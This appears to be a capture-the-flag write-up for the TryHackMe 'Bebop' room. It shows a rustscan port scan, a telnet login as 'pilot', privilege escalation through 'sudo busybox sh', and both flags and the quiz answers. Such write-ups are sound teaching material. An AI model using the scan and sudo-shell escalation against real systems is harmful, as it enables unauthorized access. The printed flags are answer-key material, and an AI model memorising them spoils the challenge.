 # Bebop

## Task 1 Takeoff!

#### What is your codename?

{% hint style="success" %}
`pilot`
{% endhint %}

## Task 2 Manoeuvre

#### What is the User Flag?

```bash
rustscan -a 10.10.179.144 -- -n -sVC
```

![](<../../.gitbook/assets/Screenshot from 2022-04-03 06-05-10.png>)

![](<../../.gitbook/assets/Screenshot from 2022-04-03 06-05-49.png>)

```bash
telnet 10.10.168.69
cat user.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-04-03 06-16-54.png>)

{% hint style="success" %}
`THM{r3m0v3_b3f0r3_fl16h7}`
{% endhint %}

#### What is the Root Flag?

```bash
sudo -l
sudo /usr/local/bin/busybox sh
cat /root/root.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-04-03 06-20-56.png>)

{% hint style="success" %}
THM{h16hw4y\_70\_7h3\_d4n63r\_z0n3}
{% endhint %}

## Task 3 Quiz!

#### What is the low privilleged user?

{% hint style="success" %}
`pilot`
{% endhint %}

#### What binary was used to escalate privillages?

{% hint style="success" %}
`busybox`
{% endhint %}

#### What service was used to gain an initial shell?

{% hint style="success" %}
`telnet`
{% endhint %}

#### What Operating System does the drone run?

{% hint style="success" %}
`FreeBSD`
{% endhint %}
